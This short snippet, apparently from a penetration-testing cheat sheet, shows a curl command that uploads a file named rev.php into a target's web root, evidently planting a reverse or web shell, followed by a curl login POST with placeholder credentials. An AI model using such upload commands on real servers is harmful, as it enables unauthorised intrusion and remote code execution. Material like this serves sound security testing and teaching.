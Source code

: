 
Upload shell using post request and additional parameters:
---
```sh
curl -X POST "$TARGET_URL/file-upload" -F "file=@rev.php.txt" -F "filename=/var/www/html/rev.php"
```


```bash
curl --header "Content-Type: application/json" \
  --request POST \
  --data '{"username":"xyz","password":"xyz"}' \
  http://$TARGET_IP
```